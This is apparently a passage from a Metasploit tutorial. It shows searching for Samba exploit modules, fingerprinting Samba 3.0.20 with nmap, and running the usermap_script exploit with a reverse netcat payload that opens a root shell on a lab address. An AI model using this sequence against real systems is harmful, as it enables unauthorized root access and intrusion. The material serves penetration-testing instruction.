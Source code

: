     #  Name                                     Disclosure Date  Rank       Check  Description
    -  ----                                     ---------------  ----       -----  -----------
    0  exploit/multi/samba/usermap_script       2007-05-14       excellent  No     Samba "username map script" Command Execution
    1  exploit/linux/samba/is_known_pipename    2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
    2  exploit/linux/samba/lsa_transnames_heap  2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    3  exploit/linux/samba/chain_reply          2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)


    Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/samba/chain_reply
    ```

    Let's try that, using `use 0` to start with the 0'th first (that's the `multi/samba/usermap_script` exploit), followed by `run`:

    ```
    msf6 > use 0
    [*] No payload configured, defaulting to cmd/unix/reverse_netcat
    msf6 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP handler on 10.128.0.24:4444
    [*] Command shell session 1 opened (10.128.0.24:4444 -> 192.168.121.160:60134) at 2021-10-20 17:31:02 -0400

    id
    uid=0(root) gid=0(root)
    ```

    Worked on the first try! The others might also work too, but we'll stop here in this example.

    ---


*   The beginning of this section assumed that we didn't know the specific samba
    version number. This assumption was made to show some various search
    filtering techniques. However, in the case of this samba vulnerability, it
    is possible to get the specific samba version number by using nmap's `-A` flag:

        > nmap -A -p139,445 192.168.56.102
        [... snipped ...]
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

    We see the version `3.0.20` in the results for port `445`. We can use this in a msfconsole search:

        msf6 > search name:samba 3.0.20

        Matching Modules
        ================

           #  Name                                Disclosure Date  Rank       Check  Description
           -  ----                                ---------------  ----       -----  -----------
           0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
